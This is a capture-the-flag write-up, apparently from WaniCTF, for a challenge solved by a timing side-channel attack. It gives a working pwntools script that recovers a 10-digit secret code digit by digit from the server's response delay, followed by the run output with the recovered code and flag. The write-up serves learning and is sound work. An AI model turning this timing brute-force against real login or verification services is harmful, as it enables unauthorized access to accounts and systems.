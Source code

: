 ```yaml
---
ai_date: '2025-04-27 05:23:37'
ai_summary: Timing-based attack discovered by measuring response time for input characters
ai_tags:
- timing
- brute
- attack
created: 2024-06-22T07:29
points: 264
solves: 44
updated: 2024-08-05T09:51
---
```


It seems that the validation step would take a very  long time, which means its gonna be timing attack!

i.e. measure the time between you sending the data, and the server responding with "Wrong"

```python
from pwn import *
from time import perf_counter

def time_char(ch):
    conn.recvuntil(b"Enter the secret code: ")
    conn.sendline(ch)
    start = perf_counter()
    res = conn.recvline()
    time = perf_counter() - start
    if b'Wrong!\n' != res:
        print(f"Found: {ch}")
        print(f"Time: {time}")
        print(res)
        print(conn.recvall())
        conn.interactive()
        return 0
    return time

conn = remote("chal-lz56g6.wanictf.org", 5000)
conn.recvuntil(b"Enter the cheat code: ")
conn.sendline(b"A"*50)

curr = b''
for j in range(10):
    res = [time_char((curr + str(i).encode()).ljust(10, b'0')) for i in range(10)]
    min_index = res.index(min(res))
    curr+=str(min_index).encode()
    print(f"Current: {curr} {res[min_index]} {res}")
```

```
Current: b'2' 1.0258064000081504
Current: b'24' 0.9410080999950878
Current: b'244' 0.8268128000054276
Current: b'2443' 0.7246176000044215
Current: b'24438' 0.6052523999969708
Current: b'244388' 0.5313083000073675
Current: b'2443889' 0.40315929999633227
Current: b'24438896' 0.28107090000412427
Found: b'2443889630'
Time: 0.17056149999552872
b'Correct!\n'
b'FLAG{t1m!ng_a774ck_1s_f34rfu1}\n'
```